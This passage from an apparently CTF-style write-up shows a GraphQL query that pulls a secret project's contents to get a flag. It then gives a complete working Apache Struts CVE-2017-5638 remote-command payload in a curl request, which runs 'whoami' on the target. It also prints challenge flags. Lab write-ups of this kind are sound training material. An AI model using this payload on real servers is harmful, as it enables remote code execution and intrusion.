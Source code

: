 ### Step 4: Extract the Flag

Now that we have all the information we need, we can craft our payload to get the flag:

```graphql
{
  project(id: "3") {
    id
    name
    isSecret
    secrets {
      id
      name
      content
    }
  }
}
```

{: .box-success}
**Flag:** `Spark{F4st1ng_Is_G00d_But_Exp0sIng_Qu3r13s_Is_N0t}`

---

## Challenge 3: Struts Challenge 😈

{: .box-error}
**Challenge Type:** Apache Struts RCE (CVE-2017-5638)

This challenge is vulnerable to **CVE-2017-5638** - The Apache Struts vulnerability.

### Vulnerability Overview

Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker's invalid Content-Type HTTP header.

### Exploitation

For the payload using curl:

```bash
curl -X POST http://SERVER-IP:8080/product-catalog/ \
-H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```

{: .box-warning}
**Testing:** This should give you as output `root`.
